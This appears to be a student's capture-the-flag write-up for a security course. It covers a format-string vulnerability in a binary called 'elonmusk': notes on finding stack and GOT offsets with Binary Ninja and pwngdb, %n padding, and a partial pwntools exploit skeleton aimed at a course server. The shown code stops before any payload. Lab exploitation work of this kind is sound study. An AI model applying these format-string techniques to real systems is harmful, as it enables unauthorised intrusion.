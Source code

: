 Input buffer is at argument position 5.
Most of my notes are written as comments on the function since I got lazy in switching between files to write.
Main problems were finding offsets. Function and global offset table offsets could be found using binary ninja.
To find offset during function runtime, I had to run pwngdb and break before the vulnerable prinf to see what was on the stack. do_gamble+295.
Breaking was more troublesome since the addresses were kinda randomised, so i had to let the program run to initialise the addresses to breakpoint properly.
Since you can't simply hardcode addresses anymore, I had to find out a way to do the padding to use %n.
*** Wow this took some time ***
---------------------------------------------------
```
from pwn import *
import math

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './elonmusk' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 6832 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Fibonacci checker
def isPerfectSquare(x):
    ret = int(math.sqrt(x))
    return ret*ret == x
```